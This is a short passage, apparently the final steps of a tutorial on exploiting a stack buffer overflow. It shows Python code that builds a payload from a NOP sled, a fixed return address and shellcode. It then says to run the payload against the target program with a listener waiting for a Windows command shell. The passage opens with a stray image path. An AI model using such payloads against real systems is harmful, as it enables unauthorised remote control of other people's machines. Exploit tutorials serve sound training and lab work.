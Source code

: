     calculated_offset = 146

    final = nop*calculated_offset
    final += "\xbf\x16\x04\x08"
    final += nop*16
    final += buf

    print(final)
    ```

7. Run this against the program as normal, with a listener waiting, to hopefully get a windows command prompt shell.

